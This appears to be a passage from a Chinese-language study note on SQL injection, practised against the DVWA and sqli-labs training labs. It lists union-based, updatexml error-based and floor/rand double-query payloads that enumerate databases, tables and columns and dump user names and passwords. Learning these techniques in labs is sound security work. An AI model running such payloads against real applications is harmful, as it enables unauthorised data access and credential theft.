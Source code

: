 (1)基于错误的注入：判断注入点？单引号？
(2)基于布尔的注入：闭合前面的sql语句，构造or和and的逻辑语句，-- 用来注释后面所有语句
(3)基于union的注入：
``` bash
user()：当前用户名
     database()：当前数据库名
     version()：数据库版本信息
'union select 1,table_schema from information_schema.tables -- hh  #查库名
'union select 1,table_name from information_shcema.tables where table_schema="..." #查当前库中所有表
'union select 1,column_name from information_schema.columns where table_name="..."  #查当前表中所有字段
 
```

#concat实现字段拼接
'union select user,concat(first_name,'  ',last_name,'  ',password) from users -- '
#group_concat
#concat_ws
### 5.报错注入

{% codeblock %}
（1）extractvalue(xml_document,Xpath_string)                        从目标XML中返回包含所查询值的字符串
 （2）Updatexml(xml_document,Xpath_string,new_value)      注入报错点在Xpath_string 位置,因此其它位置可以任意处理,譬如写1.`
 DVWA Security='low':
  and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1)# 0x7e为~的16进制ASCII码
 
  and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),0x7e),1)#
 
 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'),0x7e),1)#
 
  and updatexml(1,concat(0x7e,(select group_concat(user_id,last_name) from users),0x7e),1)#
 
{% endcodeblock %}
其中:
XML_document是string格式，为XML文档对象的名称
Xpath_string(Xpath格式的字符串)，自主学习。
new_value,string格式，替换查找到的符合条件的数据
### 6.双注入（双查询报错注入，两个select）
原理: 利用group by主键冲突报错获取数据库信息.
几个函数:
floor()                     #向下取整
       rand()                      #返回（0,1）随机值,rand()*2 返回(0,2)随机值
       floor(rand()*2)             # 向下取整则返回值为0或1.
       group by                    #分组
       count()                    #返回当前的表的所有的记录数
举例:

{% codeblock %}
 Sqli-labs Less-11(payload)
 uname=admin' union select 1,count(1) from information_schema.tables  group by
  group_concat( floor(rand()*2),(select table_name from information_schema.tables where table_schema='security' )) %23&passwd=123
 